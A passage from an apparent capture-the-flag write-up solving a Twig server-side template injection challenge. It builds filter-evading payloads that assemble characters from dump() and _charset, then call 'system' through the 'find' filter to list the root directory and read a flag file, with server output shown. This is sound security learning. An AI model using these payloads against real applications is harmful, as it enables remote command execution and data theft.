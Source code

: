 So now how to execute it? We only got the string `system` and `ls`.

There's a filter that can do that, it's the filter `find`, which isn't even documented anywhere, or that I can't find any document about it, but I guess that it "find" a function by it's name and execute it.

So we can do something like this execute `system` with the argument `ls /`: `{% raw %}{{ {rce}|find(syste~m) }}{% endraw %}`

Chaining it all together we get:
```
{% raw %}{% set slash=(dump()|nl2br()|slice(14,1))|join() %}
{% set space=(dump()|nl2br()|slice(13,1))|join() %}
{% set syste={syste:1}|keys|join() %}
{% set m={m:1}|keys|join() %}
{% set ls={ls:1}|keys|join() %}
{% set rce=ls~space~slash %}
{{ {rce}|find(syste~m) }}{% endraw %}
```
Sending it to server will give this output
```
bin dev etc flag-edbfcbcaef home lib media mnt opt proc root run sbin srv sys tmp usr var ls /
```
Now we know that the flag file name is `flag-edbfcbcaef`. So we'll use the same technique to execute <br>
`cat /flag-edbfcbcaef`

But there's a new character which we can't use the above technique for, it's the dash character `-`.

So we'll need to find another way to get it. Another way to get a lot of characters is via the global [`_charset`](https://twig.symfony.com/doc/3.x/templates.html#global-variables){:target="_blank"} variable.

If we send this `{% raw %}{{_charset}}{% endraw %}` to the server it will return `UTF-8`. There's the dash character that we need. So just extract it with `slice()` and `join()` like the others.
```
{% raw %}{% set dash=_charset|slice(3,1)|join() %}{% endraw %}
```

The other strings `cat`, `flag` and `edbfcbcaef` can be constructed using the good old technique.
```
{% raw %}{% set cat={cat:1}|keys|join() %}
{% set flag1={flag:1}|keys|join() %}
{% set flag2={edbfcbcaef:1}|keys|join() %}
{% set rce=cat~space~slash~flag1~dash~flag2 %}{% endraw %}
```
`cat~space~slash~flag1~dash~flag2` will result in `cat /flag-edbfcbcaef`.

All that's left is to chain them together to get the final payload, send them to the server and get the flag.

```
{% raw %}{% set slash=(dump()|nl2br()|slice(14,1))|join() %}
{% set space=(dump()|nl2br()|slice(13,1))|join() %}
{% set syste={syste:1}|keys|join() %}
{% set m={m:1}|keys|join() %}
{% set cat={cat:1}|keys|join() %}
{% set flag1={flag:1}|keys|join() %}
{% set dash=_charset|slice(3,1)|join() %}
{% set flag2={edbfcbcaef:1}|keys|join() %}
{% set rce=cat~space~slash~flag1~dash~flag2 %}
{{ {rce}|find(syste~m) }}{% endraw %}
```
**Flag:** `CSCTF{Tw1g_tw1g_ssT1_n0_h4cKtr1ck5_th1S_t1M3}`
